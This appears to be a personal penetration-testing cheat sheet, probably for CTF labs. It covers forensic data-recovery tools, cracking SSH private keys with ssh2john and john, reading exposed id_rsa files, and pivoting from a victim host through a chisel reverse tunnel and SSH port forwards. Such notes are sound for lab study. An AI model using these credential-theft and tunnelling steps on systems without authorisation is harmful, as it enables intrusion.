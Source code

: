 Always use strings on everything, even partitions to recover data (sda, sdb, etc)...

### Jar files

We can use jd-gui to open up `.jar` files


### Tools

- dcfldd
- binwalk to extract data
- testdisk
- photorec


## Crack ssh keys

```bash
python ssh2john.py Matt > crack.ssh 
john --wordlist=/usr/share/wordlists/rockyou.txt crack.ssh
```

## Directories

A directory can be hidden to us, but the inside doesn't.

/home/emanlui/    is not accessible by us, but
/home/emanlui/.ssh/id_rsa   can, we need to check all the possible folder that we can really access to.

## Ports

Always look for port to port forward.

### Chisel 

Our machine
```bash
./chisel server --reverse -p 1236
```
Victim
```bash
		connecting to server       my machine   victim machine
./chisel client 10.10.14.3:1236          R:127.0.0.1:80:172.19.0.3:80     R:127.0.0.1:6379:172.19.0.2:6379
```

### SSH

If you have an active session os ssh, you can use it to port forward anything

```bash
Enter + ~ + C to enter into SSH mode
ssh> -L 52846:127.0.0.1:52846
```
